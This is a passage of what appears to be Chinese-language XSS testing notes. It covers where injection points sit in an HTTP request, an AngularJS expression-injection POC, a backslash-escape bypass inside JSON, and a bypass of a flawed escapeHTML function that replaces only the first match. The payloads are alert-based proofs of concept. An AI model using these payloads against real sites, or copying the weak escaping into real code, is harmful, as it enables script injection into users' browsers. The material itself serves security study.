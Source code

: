 3. 输入：请求报文的任何位置

   1. 标头的各个字段
   2. URL参数
   3. 请求体中的参数

4. 输出：响应html的任何位置

5. 不想错过隐藏的XSS注入点，最好以抓包的形式观察

### 6、AngularJS表达式注入

条件：

1. 是在<标签 class="ng-xxx"> 可控输入</标签>
2. 并且输入{{1+1}}，显示2的，就是存在

POC：

```
{{$on.constructor('alert(document.domain)')()}}
```

### 7、' \ '未转义 -> 转义绕过

```
var searchResultsObj = {"results":[],"searchTerm":"\\\\"-alert(1)}//"} //alert会执行
```

json的容错度：

1. {}一定要完整
2. 属性和值需要闭合

当遇到输入：

```
" 转义-> \" 一般转义的都是"、'、</>、(/)等可以闭合的符号
```

查看

```
\ 本身是否被转义成 \\
```

如果没有，那么就可以使用:

```
\" -> \\"绕过，这样"就不会被转义，而是被当作正常的"，因为\\ -> \之后，\就是文本类型的，不具备转义"的能力了
```

### 8、绕过不严谨HTML编码

不严谨：

```
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;'); 
        //JavaScript的replace方法默认只替换第一个匹配项
        //<><img src=1 onerror=alert()>绕过
 }
```
